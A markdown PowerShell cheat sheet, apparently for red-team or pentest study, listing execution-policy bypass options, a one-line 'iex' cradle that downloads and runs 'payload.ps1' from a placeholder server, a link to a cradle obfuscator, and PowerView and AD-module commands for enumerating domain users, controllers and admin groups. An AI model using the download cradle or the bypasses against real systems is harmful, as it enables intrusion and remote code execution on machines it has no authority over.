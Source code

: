 ## BASICS:  

**Check Execution Policy**:  
1. Get-ExecutionPolicy  

**Bypass execution policy**:  
1. powershell -executionpolicy bypass .\script.ps1  
2. powershell -ep bypass  
3. powershell -c <cmd>  
4. powershell -enc  
  
**Import Modules**:  
1. . .\script.ps1  
2. Import-Module <path to script>  

**List Available modules**:  
1. Get-Module -ListAvailable  

** All commands in the module**:  
1. Get-Command -Module <module name>  
  
## COMMAND EXECUTION:  
**IEX**:  (**!= OPSEC**)
1. iex (New-Object Net.webClient).DownloadString('http://server/payload.ps1')  

**IEX Obfuscator**: https://github.com/danielbohannon/Invoke-CradleCrafter.git  
  
## DOMAIN ENUMERATION (POWERVIEW):  
**Get the current domain**:  
1. Get-NetDomain  
2. Get-NetDomain -Domain \<domain name\>  

**Get the current domain SID**:  
1. Get-DomainSID  
  
**Get domain controllers for a domain**:  
1. Get-NetDomainController  
2. Get-NetDomainController -Domain \<domain name\>  

**Get users of domain**:  
1. Get-NetUser  
2. Get-NetUser -Domain \<domain name\>  
3. Get-NetUser -UserName \<user name\>  
  
**Get the groups in the current domain**:  
1. Get-NetGroup  
2. Get-NetGroup \*admin\*  
  
  
## DOMAIN ENUMERATION (ACTIVE DIRECTORY TOOLS):  
**Get the current domain**: 
1. Get-ADDomain  
2. Get-ADDomain -Identity \<domain name\>  
  
**Get the current domain SID**:  
1. (Get-ADDomain).DomainSID.Value  
  
**Get domain controllers for a domain**:  
1. Get-ADDomainController  
2. Get-ADDomainController -Discover -DomainName \<domain name\>  
  
**Get users of domain**:  
1. Get-ADUser -Filter \* -Properties \*  
2. Get-ADUser -Server \<domain controller\>  
3. Get-ADUser -Identity \<user name\>  

**Get the groups in the current domain**:  
1. Get-ADGroup -Filter * | select Name  
2. Get-ADGroup -Filter 'Name like "\*admin\*"' | select Name  
  
  
